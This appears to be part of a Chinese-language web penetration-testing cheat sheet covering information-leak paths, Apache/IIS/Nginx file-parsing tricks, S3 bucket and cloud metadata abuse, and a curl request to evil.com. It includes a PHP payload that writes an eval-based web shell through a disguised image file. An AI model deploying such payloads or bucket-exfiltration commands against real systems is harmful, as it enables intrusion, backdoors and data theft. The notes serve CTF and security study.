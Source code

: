 
# 其它

 - Information leak
     - .git / .svn
     - robots.txt
     - .DS_Store
     - .htaccess
     - server-status
     - crossdomain.xml
     - admin/ manager/ login/ backup/ wp-login/ phpMyAdmin/
     - xxx.php.bak / www.tar.gz / xxx.php.swp / xxx.php~
     - /WEB-INF/web.xml
 - 文件解析漏洞
     - Apache
         - shell.php.ggininder
     - IIS
         - IIS < 7
             - a.asp/user.jpg
             - user.asp;aa.jpg
     - Nginx
         - nginx < 8.03
             - `cgi.fix_pathinfo=1`
             - Fast-CGI開啟狀況下
             - kaibro.jpg: `<?php fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?>`
             - 訪問`kaibro.jpg/.php`生成shell.php

- AWS常見漏洞
    - S3 bucket權限配置錯誤
        - nslookup判斷
            - `nslookup 87.87.87.87`
            - `s3-website-us-west-2.amazonaws.com.`
        - 確認bucket
            - 訪問`bucketname.s3.amazonaws.com`
            - 成功會返回bucket XML資訊
        - awscli工具
            - 列目錄 `aws s3 ls s3://bucketname/ --region regionname`
            - 下載 `aws sync s3://bucketname/ localdir --region regionname`
    - metadata
        - http://169.254.169.254/latest/meta-data/
        - Tool 
            - https://andresriancho.github.io/nimbostratus/

- 常見Port服務
    - http://packetlife.net/media/library/23/common_ports.pdf
- `php -i | grep "Loaded Configuration File"`
    
    - 列出php.ini路徑

- `curl -i -X OPTIONS 'http://evil.com/'`

- ShellShock
    